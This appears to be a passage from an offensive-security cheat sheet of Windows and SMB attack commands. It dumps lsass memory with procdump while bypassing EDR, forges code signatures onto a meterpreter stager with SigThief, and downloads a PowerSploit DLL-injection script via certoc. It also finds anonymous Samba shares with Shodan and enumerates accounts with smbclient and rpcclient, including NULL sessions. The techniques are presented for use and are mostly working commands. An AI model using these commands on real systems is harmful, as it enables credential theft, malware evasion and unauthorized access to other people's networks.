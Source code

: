 Depending on the EDR, it may be sufficient to simply add quotations around the process name (This bypasses Cortex XDR for example):

```
procdump.exe -accepteula -ma “lsass.exe” out.dmp
```

## Stealing Signatures with SigThief:

Download: https://github.com/secretsquirrel/SigThief

Rips a signature off a signed PE file and appends it to another one, fixing up the certificate table to sign the file.

```
$ ./sigthief.py -i procmon.exe -t x86_meterpreter_stager.exe -o /tmp/definitely_legit.exe 

Output file: /tmp/definitely_legit.exe 
Signature appended. 
FIN.
```
## CertOC Downloads:

Downloads text formatted files

```
certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1
```
## Shodan for SMB:

SMB ( Server Message Block ) authentication without credentials, also known as anonymous SMB access, allows users to access shared resources on a network without providing username or passwords. This can be useful for accessing shared folders that have been configured to allow anonymous access.

```
"Authentication: disabled" port:445 product:"Samba" 
```

```
smbclient -L //200.x.x.29/ -N  
smbclient //200.x.x.29/info
```

## Plundering Account Information with RPCClient and SMBClient:

Once you have a user name and password and open SMB access of a target Windows client or server over TCP port 445, you can use rpcclient to open an authenticated SMB session to a target machine by running the following command on your Linux system:

```
$ rpcclient —U <username> <winipaddr>

# If the server allows NULL sessions, the following command could be utilized
$ $ rpcclient —U "" <winipaddr>
```
